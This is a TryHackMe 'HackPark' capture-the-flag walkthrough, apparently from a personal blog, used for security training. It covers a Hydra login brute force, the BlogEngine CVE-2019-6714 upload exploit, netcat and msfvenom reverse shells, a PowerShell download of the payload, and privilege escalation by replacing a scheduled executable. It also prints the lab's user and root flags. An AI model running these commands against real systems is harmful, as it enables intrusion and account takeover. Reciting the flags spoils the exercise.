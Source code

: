 ```yaml
---
layout: post
title: THM — HackPark
date: 2022-09-29 00:00:00 -500
categories: [TryHackMe]
tags: [Hydra]
---
```


<img src="/assets/images/HackPark/logo.png" alt="HackPark Logo" width="30%">

***
<center><strong><font color="White">Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!</font></strong></center>

***

## <strong><font color="#34A5DA">Reccon</font></strong>

After deploying the machine we can run basic nmap scan for open ports & services on the target machine.

```console
vladislav@Mac ~ % nmap -sV 10.10.205.86
Starting Nmap 7.93 ( https://nmap.org ) at 2022-09-28 23:06 MSK
Nmap scan report for 10.10.205.86
Host is up (0.068s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 126.41 seconds
```

We can see that there is an HTTP service on port 80, then we open `10.10.205.86:80` in browser.

There we are interested in the login page. Inspecting the login form we can find out that it's using POST request type.

<img src="/assets/images/HackPark/1.png" alt="Inspecting the site" width="70%">

Moreover, the url of the login page is the following: `http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/`.

***

## <strong><font color="#34A5DA">Using Hydra for brute-forcing the login</font></strong>

Now we know the URL, request type and probably the login name, so we can start brute-force with Hydra.

However, first we need to intercept the POST request using Burp Suite.

```http
POST /Account/login.aspx?ReturnURL=%2fadmin%2f HTTP/1.1
Host: 10.10.205.86
Content-Length: 578
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.205.86
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.10.205.86/Account/login.aspx?ReturnURL=/admin/
Accept-Encoding: gzip, deflate
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=user&ctl00%24MainContent%24LoginUser%24Password=pass&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8
```

Now we can use Hydra for cracking the password.

> [Good notes on hydra](https://github.com/gnebbia/hydra_notes)

We set username with `-l admin`, password list with `-P /share/wordlists/rockyou.txt`, target machine IP, HTTP form and "request string".

Request string contains of three elements separated by `:`:

* pageOnWhichTheLoginHappens
* list of parameters, here we have to specify with `^USER^` and `^PASS^` where usernames and passwords will be inserted
* a character which may be F (for failing strings) or S for successful strings followed by an equal sign `=` and a string which appears in a failed attempt or in a successful attempt

So in our case request string contains:

* `/Account/login.aspx?ReturnURL=/admin/` from the URL
* "`__VIEWSTATE`". There we should change two things: `UserNameuser` to `UserName=^USER^` and `Password=pass` to `Password=^PASS^`
* S=Success.

Here's the final hydra payload:

```bash
hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
```

```console
vladislav@Mac ~ % hydra -l admin -P share/wordlists/rockyou.txt 10.10.80.203 http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-29 00:06:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking http-post-form://10.10.80.203:80/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=YQwe2DmX4dLNoVJdP1utK2UOPcAPkssid3zJeBEzoacQjLetUraBz%2BZqxgat0OGqbo4MPsCyKuj5sSMKBsD9Ocxc9vjlr4QprcmDv9V6keWetkF4%2B6iKrjL4mG0z2pQOwMUuT1M7UCHkhGebHG9gMIXKLTYj4vr35LHm50rIPhCDxbML&__EVENTVALIDATION=O8SYyFiwz5tAW7%2B3AmxtEOS6oR2JikWIczNsx7LCN5IyJGhAHh%2F7wI96VK%2FRfeTSAj2uJ4KI8Yl%2Bi3g5Uo%2FlY%2BxE6y9%2FpkZusKZp98%2Fu1UMSkzrtKimhsa2PwN3ddsU5xqKT7EHmuMLn4ANrULaBO4A63LwMI1UvU%2FASfTJ1a21j3ADo&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=%D0%92%D0%BE%D0%B9%D1%82%D0%B8:F=Failed
[STATUS] 995.00 tries/min, 995 tries in 00:01h, 14343406 to do in 240:16h, 16 active
[80][http-post-form] host: 10.10.80.203   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-29 00:08:15
```

So, the password is `1qaz2wsx`.

***

## <strong><font color="#34A5DA">Compromizing the machine</font></strong>

After logging into admin account we can find the blogengine version: `3.3.6.0`.

![BlogEngine About page](/assets/images/HackPark/2.png)

Searching on exploit-db, we can find the [vulnerability](https://www.exploit-db.com/exploits/46353). CVE-2019-6714. Download the script.

Firstly, we need to modify the script by changing the IP and Port of TCP connection.

Secondly, we need to rename the script:

```bash
mv 46353 PostView.ascx
```

Thirdly, we setup a reverse TCP listener. We can do this using netcat.

```console
vladislav@Mac ~ % netcat -nlvp 4445
```

After that we should upload the script using blogengine control panel:
1. Switch to *Dashboard*
2. Go to "*Published Posts*"
3. Go to "*Welcome to HackPark*"
4. In the text editor press the button "*File Manager*" and upload the PostView.ascx

Finally, go to `http://10.10.29.8:80?theme=../../App_Data/files`. If everything done right, we recieve the connection.

```console
vladislav@Mac Downloads % netcat -nlvp 4445
Connection from 10.10.29.8:49232
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

***

## <strong><font color="#34A5DA">Windows Privilege Escalation</font></strong>

According to the next task we need to generate another reverse shell using msfvenom.

First, we need to generate the executable with msfvenom. Use another port!

```console
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.7.222 LPORT=4446 -f exe > rev_shell.exe

```

Next, start a simple HTTP server on your attack machine:
```bash
python3 -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

On the reverse shell download the script:
```
powershell -c Invoke-WebRequest -uri "http://10.18.7.222:8000/rev_shell.exe" -outfile "C:\\Windows\temp\rev_shell.exe"
```

Next, we need to setup a Metasploit TCP Reverse Shell:

```console
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.7.222
msf6 exploit(multi/handler) > set LPORT 4446
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.18.7.222:4446 
```

Run the uploaded script on the target machine:
```console
cd \windows\temp
.\rev_shell.exe
```

If everything done right, we get the meterpreter reverse TCP session:
```console
[*] Started reverse TCP handler on 10.18.7.222:4446 
[*] Sending stage (175686 bytes) to 10.10.29.8
[*] Meterpreter session 1 opened (10.18.7.222:4446 -> 10.10.29.8:49264) at 2022-09-29 16:32:08 +0300

meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

Next, let's use WinPEAS — a script that search for possible paths to escalate privileges on Windows hosts:
```bash
wget https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASbat/winPEAS.bat
```

On the meterpreter session:
```console
meterpreter > upload winPEAS.bat c:\\windows\\temp
[*] uploading  : /Users/vladislav/winPEAS.bat -> c:\windows\temp
[*] uploaded   : /Users/vladislav/winPEAS.bat -> c:\windows\temp\winPEAS.bat
```

Run the script:
```console
c:\Windows\Temp>.\winPEAS.bat
.\winPEAS.bat

 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials

 [+] AppCmd
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd-exe
C:\Windows\system32\inetsrv\appcmd.exe exists. 

 [+] Files in registry that may contain credentials
   [i] Searching specific files that may contains credentials.
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ExtensionAgents
    W3SVC    REG_SZ    Software\Microsoft\W3SVC\CurrentVersion

Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys
C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

---
Scan complete.
    
     ,/*,..*(((((((((((((((((((((((((((((((((,

   ,*/((((((((((((((((((/,  .*//((//**, .*((((((*
PowerShell v2 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
    PowerShellVersion    REG_SZ    2.0

PowerShell v5 Version:

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\3\PowerShellEngine
    PowerShellVersion    REG_SZ    4.0

Transcriptions Settings:
Module logging settings:
Scriptblog logging settings:

PS default transcript history

Checking PS history file

 [+] MOUNTED DISKS
   [i] Maybe you find something interesting
Caption  
C:       



 [+] ENVIRONMENT
   [i] Interesting information?

ALLUSERSPROFILE=C:\ProgramData
CommonProgramFiles=C:\Program Files (x86)\Common Files
CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
CommonProgramW6432=C:\Program Files\Common Files
COMPUTERNAME=HACKPARK
ComSpec=C:\Windows\system32\cmd.exe
CurrentLine= 0x1B[33m[+]0x1B[97m ENVIRONMENT
E=0x1B[
FP_NO_HOST_CHECK=NO
long=false
NUMBER_OF_PROCESSORS=2
OS=Windows_NT
Path=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
Percentage=1
PercentageTrack=30
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_ARCHITEW6432=AMD64
PROCESSOR_IDENTIFIER=Intel64 Family 6 Model 79 Stepping 1, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=4f01
ProgramData=C:\ProgramData
ProgramFiles=C:\Program Files (x86)
ProgramFiles(x86)=C:\Program Files (x86)
ProgramW6432=C:\Program Files
PROMPT=$P$G
PSModulePath=C:\Windows\system32\WindowsPowerShell\v1.0\Modules\
PUBLIC=C:\Users\Public
SystemDrive=C:
SystemRoot=C:\Windows
TEMP=C:\Windows\TEMP
TMP=C:\Windows\TEMP
USERDOMAIN=IIS APPPOOL
USERNAME=Blog
USERPROFILE=C:\Users\Default
windir=C:\Windows

 [+] INSTALLED SOFTWARE
   [i] Some weird software? Check for vulnerabilities in unknow software installed
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software

Amazon
Common Files
Common Files
Internet Explorer
Internet Explorer
Microsoft.NET
SystemScheduler
Windows Mail
Windows Mail
Windows NT
Windows NT
WindowsPowerShell
WindowsPowerShell
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\
    InstallLocation    REG_SZ    C:\Program Files (x86)\SystemScheduler\

Looking inside HKCU\Software\OpenSSH\Agent\Keys





C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

---
Scan complete.
 [+] Remote Desktop Credentials Manager
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#remote-desktop-credential-manager


Looking inside \Microsoft\Credentials\


 [+] Unattended files

 [+] SAM and SYSTEM backups

 [+] McAffee SiteList.xml
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials
```

However, it doesn't give us some useful information.

```console
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User              Path
 ---   ----  ----                  ----  -------  ----              ----
 0     0     [System Process]
 4     0     System
 68    680   svchost.exe
 368   4     smss.exe
 488   2084  findstr.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\findstr.exe
 524   516   csrss.exe
 580   572   csrss.exe
 588   516   wininit.exe
 616   572   winlogon.exe
 680   588   services.exe
 688   588   lsass.exe
 748   680   svchost.exe
 756   2560  rev_shell.exe         x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\rev_shell.exe
 792   680   svchost.exe
 868   680   svchost.exe
 884   680   svchost.exe
 888   616   dwm.exe
 912   680   svchost.exe
 964   680   svchost.exe
 1108  680   svchost.exe
 1136  680   spoolsv.exe
 1168  680   amazon-ssm-agent.exe
 1244  680   svchost.exe
 1264  680   LiteAgent.exe
 1364  680   svchost.exe
 1380  680   svchost.exe
 1408  680   WService.exe
 1456  2560  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 1544  1408  WScheduler.exe
 1640  680   Ec2Config.exe
 1732  748   WmiPrvSE.exe
 1836  2084  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 1876  2084  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2084  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2088  2484  conhost.exe           x64   0        IIS APPPOOL\Blog  C:\Windows\System32\conhost.exe
 2092  2488  Message.exe
 2428  680   msdtc.exe
 2484  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2488  2188  WScheduler.exe
 2504  912   taskhostex.exe
 2560  2792  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 2580  2572  explorer.exe
 2676  748   WmiPrvSE.exe
 2792  1380  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 3032  2528  ServerManager.exe
```

Here we can see two interesting processes: WService.exe and WScheduler.exe. Let's take a look at scheduler:

```
meterpreter > cd "Program Files (x86)"
meterpreter > cd SystemScheduler
meterpreter > cd Events
```

Here we can see a file called `20198415519.INI_LOG.txt`. It contains the following information:
```
...
09/29/22 07:10:05,Event Started Ok, (Administrator)
09/29/22 07:10:38,Process Ended. PID:2224,ExitCode:4,Message.exe (Administrator)
09/29/22 07:11:03,Event Started Ok, (Administrator)
09/29/22 07:11:35,Process Ended. PID:2092,ExitCode:4,Message.exe (Administrator)
09/29/22 07:12:05,Event Started Ok, (Administrator)
09/29/22 07:12:35,Process Ended. PID:2896,ExitCode:4,Message.exe (Administrator)
09/29/22 07:13:03,Event Started Ok, (Administrator)
09/29/22 07:13:34,Process Ended. PID:1964,ExitCode:4,Message.exe (Administrator)
09/29/22 07:14:03,Event Started Ok, (Administrator)
09/29/22 07:14:33,Process Ended. PID:2588,ExitCode:4,Message.exe (Administrator)
09/29/22 07:15:01,Event Started Ok, (Administrator)
09/29/22 07:15:33,Process Ended. PID:2212,ExitCode:4,Message.exe (Administrator)
09/29/22 07:16:01,Event Started Ok, (Administrator)
09/29/22 07:16:34,Process Ended. PID:2752,ExitCode:4,Message.exe (Administrator)
09/29/22 07:17:02,Event Started Ok, (Administrator)
...
```

As we can see, Windows Scheduler starts `Message.exe` every 30 seconds.

And fortunately we have all permissions for this file:
```
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
...
100777/rwxrwxrwx  536992   fil   2018-03-25 20:58:56 +0300  Message.exe
...
```

Change the original `Message.exe` to our `rev_shell.exe`:

```
meterpreter > mv /windows/temp/rev_shell.exe "c:\Program Files (x86)\SystemScheduler\rev_shell.exe"
meterpreter > mv Message.exe Message.f
meterpreter > mv rev_shell.exe Message.exe
```

Reload reverse TCP handler. And finally we get Administrator's privileges:

```console
meterpreter > getuid
Server username: HACKPARK\Administrator
```

Now we can find user.txt on Jeff's Desktop containing: `759bd8af507517bcfaede78a21a73e39`.

Also, the root flag on Administrator's Desktop which contains: `7e13d97f05f7ceb9881a3eb3d78d3e72`.